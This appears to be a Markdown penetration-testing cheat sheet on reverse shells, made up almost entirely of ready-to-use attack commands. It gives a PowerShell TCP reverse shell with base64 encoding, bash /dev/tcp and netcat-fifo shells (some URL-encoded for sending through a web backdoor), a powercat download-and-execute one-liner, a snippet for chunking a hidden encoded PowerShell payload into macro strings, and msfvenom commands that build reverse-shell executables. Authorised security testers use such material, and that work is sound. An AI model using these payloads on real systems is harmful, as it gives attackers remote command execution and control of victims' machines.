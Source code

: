 # Reverse shells

## References

- https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
- https://www.revshells.com/
- Hacktricks: https://book.hacktricks.xyz/generic-methodologies-and-resources/shells

## Listener

```
nc -nvlp PortAtt
```

## URL encoding

- https://en.wikipedia.org/wiki/Percent-encoding
- https://www.urlencoder.io/
- With curl: `curl http://vulnwebsite/backdoor.php --data-urlencode "cmd=ls -l"`

## Powershell

```
$ pwsh
PS> $Text = '$client = New-Object System.Net.Sockets.TCPClient("attackerIp",attackerPort);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'
PS> $Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)
PS> $EncodedText =[Convert]::ToBase64String($Bytes)

cmd> powershell -enc xyz
```
API: https://learn.microsoft.com/en-us/dotnet/api/system.net.sockets.socket?view=net-7.0

## Bash 

```
bash -c "bash -i >& /dev/tcp/$AttackerIp/$AttackerPort 0>&1"
bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F$AttackerIp%2F$AttackerPort%200%3E%261%22
rm /tmp/f ; mkfifo /tmp/f ; cat /tmp/f | /bin/sh -i 2>&1 | nc $AttackerIP $AttackePort > /tmp/f
rm%20%2Ftmp%2Ff%20%3B%20mkfifo%20%2Ftmp%2Ff%20%3B%20cat%20%2Ftmp%2Ff%20%7C%20%2Fbin%2Fsh%20-i%202%3E%261%20%7C%20nc%20$AttackerIP%20$AttackePort%20%3E%20%2Ftmp%2Ff
```
Other shells: https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

## Powercat - Office

Powercat script: https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1
```
IEX(New-Object System.Net.WebClient).DownloadString('http://IpAtt/powercat.ps1');powercat -c IpAtt -p PortAtt -e powershell

str = "powershell.exe -nop -w hidden -e xxxx..."
n = 50
for i in range(0, len(str), n):
	print("Str = Str + " + '"' + str[i:i+n] + '"')

cd /usr/share/powershell-empire/empire/server/data/module_source/management
python3 -m http.server 80
```
or direct:
```
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://$AttackerIp:$AttackerHttpPort/powercat.ps1');powercat -c $AttackerIp -p $AttackerNcPort -e powershell"
```
API: https://learn.microsoft.com/en-us/dotnet/api/system.net.webclient?view=net-7.0

## Mfsvenom

```
msfvenom -h
msfvenom --list payloads
msfvenom --list platforms
msfvenom --list formats
msfvenom -p linux/x86/shell_reverse_tcp --list-options
msfvenom -p linux/x86/shell_reverse_tcp LHOST=IpAttacker LPORT=PortAttacker -f elf > shell.elf
msfvenom -p linux/x86/shell_reverse_tcp LHOST=IpAttacker LPORT=PortAttacker -f exe > windows_reverse.exe
Invoke-WebRequest -Uri http://IpAttacker/windows_reverse.exe -OutFile windows_reverse.exe
```
